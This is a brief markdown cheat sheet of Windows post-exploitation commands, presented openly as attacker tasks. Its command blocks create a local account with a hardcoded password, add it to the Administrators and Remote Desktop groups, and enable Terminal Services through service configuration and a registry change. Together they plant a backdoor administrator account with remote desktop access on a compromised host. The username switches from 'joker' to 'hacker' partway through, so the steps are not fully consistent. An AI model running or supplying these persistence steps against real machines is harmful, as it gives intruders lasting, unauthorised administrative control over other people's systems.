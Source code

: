 # Misc Windows Post Exploitation Tasks

### Adding a Windows User (joker):
```
net user /add joker password123
```

### Adding a user to the Administrators groups
```
net localgroup administrators /add joker
```

### Adding a user to the Remote Desktop user group
```
net localgroup "Remote Desktop users" hacker /add
```

### Starting the Remote Desktop service
```
net start TermService
```

### Verifying if the Remote Desktop Service is active and running
```
tasklist /svc | findstr /C:TermService
```

### Permanently enable Terminal Services
```
sc config TermService start=auto
```

### Enabling Terminal services via the registry  
Note: You need to reboot after invoking this...
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
